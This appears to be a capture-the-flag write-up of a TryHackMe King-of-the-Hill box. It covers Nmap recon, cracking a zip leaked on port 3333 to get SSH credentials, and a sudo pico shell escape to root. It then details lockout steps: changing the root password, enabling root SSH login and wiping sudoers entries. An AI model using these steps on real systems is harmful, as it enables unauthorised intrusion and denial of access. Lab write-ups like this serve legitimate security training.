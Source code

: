 #KOTH

## Connect to THM

Cd to Downloads and openvpn Ob.Dog.ovpn

## Recon

Nmap the target

```
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        vsftpd 3.0.3
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3eae1887b8c335b63aaf0ea4c3a2ef13 (RSA)
|   256 42cffe0dcb9224b98fdc11d410a7a03e (ECDSA)
|_  256 5cfcbcc93a01b1b678ac663c348f222a (ED25519)
80/tcp    open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Wheel of Fortune!
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36076/udp   mountd
|   100005  1,2,3      44399/udp6  mountd
|   100005  1,2,3      45799/tcp   mountd
|   100005  1,2,3      46835/tcp6  mountd
|   100021  1,3,4      37216/udp6  nlockmgr
|   100021  1,3,4      45637/tcp6  nlockmgr
|   100021  1,3,4      45887/tcp   nlockmgr
|   100021  1,3,4      52299/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl    3 (RPC #100227)
3333/tcp  open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAIlrw1Y+5stTHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZHV4CwAB
|     BAAAAAAEAAAAALNS1BAvShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPubLUx8AAAATAAAA
|     UEsBAh4DCgAJAAAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD4TF7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
9999/tcp  open  http       Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
40909/tcp open  mountd     1-3 (RPC #100005)
44141/tcp open  mountd     1-3 (RPC #100005)
45799/tcp open  mountd     1-3 (RPC #100005)
45887/tcp open  nlockmgr   1-4 (RPC #100021)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3333-TCP:V=7.93%I=7%D=6/3%Time=647B33B3%P=x86_64-pc-linux-gnu%r(NUL
SF:L,124,"UEsDBAoACQAAAIlrw1Y\+5stTHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXt
SF:k4TF7ZHV4CwAB\nBAAAAAAEAAAAALNS1BAvShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQ
SF:SwcIPubLUx8AAAATAAAA\nUEsBAh4DCgAJAAAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAA
SF:QAAAKSBAAAAAGNyZWRzLnR4dFVU\nBQAD4TF7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQ
SF:ABAE8AAAByAAAAAAA=\n")%r(GenericLines,124,"UEsDBAoACQAAAIlrw1Y\+5stTHwA
SF:AABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZHV4CwAB\nBAAAAAAEAAAAALNS1BAv
SF:ShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPubLUx8AAAATAAAA\nUEsBAh4DCgAJA
SF:AAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU\nBQAD4T
SF:F7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=\n")%r(LPDString,
SF:124,"UEsDBAoACQAAAIlrw1Y\+5stTHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXtk4
SF:TF7ZHV4CwAB\nBAAAAAAEAAAAALNS1BAvShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSw
SF:cIPubLUx8AAAATAAAA\nUEsBAh4DCgAJAAAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAAQA
SF:AAKSBAAAAAGNyZWRzLnR4dFVU\nBQAD4TF7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQAB
SF:AE8AAAByAAAAAAA=\n")%r(JavaRMI,124,"UEsDBAoACQAAAIlrw1Y\+5stTHwAAABMAAA
SF:AJABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZHV4CwAB\nBAAAAAAEAAAAALNS1BAvShGebIr
SF:5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPubLUx8AAAATAAAA\nUEsBAh4DCgAJAAAAiWvD
SF:Vj7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU\nBQAD4TF7ZHV4C
SF:wABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=\n")%r(kumo-server,124,"
SF:UEsDBAoACQAAAIlrw1Y\+5stTHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZH
SF:V4CwAB\nBAAAAAAEAAAAALNS1BAvShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPub
SF:LUx8AAAATAAAA\nUEsBAh4DCgAJAAAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSB
SF:AAAAAGNyZWRzLnR4dFVU\nBQAD4TF7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AA
SF:AByAAAAAAA=\n")%r(GetRequest,124,"UEsDBAoACQAAAIlrw1Y\+5stTHwAAABMAAAAJ
SF:ABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZHV4CwAB\nBAAAAAAEAAAAALNS1BAvShGebIr5k
SF:WjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPubLUx8AAAATAAAA\nUEsBAh4DCgAJAAAAiWvDVj
SF:7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU\nBQAD4TF7ZHV4CwA
SF:BBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=\n")%r(HTTPOptions,124,"UE
SF:sDBAoACQAAAIlrw1Y\+5stTHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZHV4
SF:CwAB\nBAAAAAAEAAAAALNS1BAvShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPubLU
SF:x8AAAATAAAA\nUEsBAh4DCgAJAAAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSBAA
SF:AAAGNyZWRzLnR4dFVU\nBQAD4TF7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAB
SF:yAAAAAAA=\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


I see this on port 3333
```
3333/tcp  open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAIlrw1Y+5stTHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPhMXtk4TF7ZHV4CwAB
|     BAAAAAAEAAAAALNS1BAvShGebIr5kWjtkdzNKJj0Xdzl/6Rybgj96vlQSwcIPubLUx8AAAATAAAA
|     UEsBAh4DCgAJAAAAiWvDVj7my1MfAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD4TF7ZHV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
```

I use netcat to see the other side
`nc [ip] 33333 | base64 -d`
and I get this
```
PK
        �k�V>��S        creds.txtUT     �1{d�1{dux
                                                  �R�/J�l���h����(��]����r���P>��SPK
        �k�V>��S        ▒��creds.txtUT�1{dux
                                            PKOr  
```

I put it in a file with
`nc [ip] 33333 | base64 -d > test.zip`
I try to unzip but needs password
So I use zip2john
`zip2john test.zip > hash.txt`
Then I crack hash with John
`john hash.txt`
and find _losers_ as password. So I unzip the test.zip with losers as password
I get a creds.txt , I cat it and find
`fortuna:MjBkOTVmN2`
So I ssh on the machine with those creds and get in

## Attack
I am on the machine as fortuna
I type `sudo -l` and get
```
Matching Defaults entries for fortuna on fortune:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fortuna may run the following commands on fortune:
    (ALL : ALL) /usr/bin/pico

```

So I search online something for pico and go to gtfo
```
sudo pico
^R^X
reset; sh 1>&0 2>&0
```

And now I am root!

## Deny access

I type passwd and enter a new password that I only know.
Then I open `/etc/ssh/sshd_config`
Scroll to `#PermitRootLogin prohibit-password` and change it to
`PermitRootLogin yes` , save and exit
Then I type `service sshd restart`

I exit this instance and I ssh as root with my new password!
I open `/etc/sudoers`, scroll to `#includedir /etc/sudoers.d` 
and delete everyone under it, and save.


## Fun
I write my name on `/root/king.txt` and save. I am the king now!
To find flags I type
`find / -name flag 2> /dev/null`
And find them all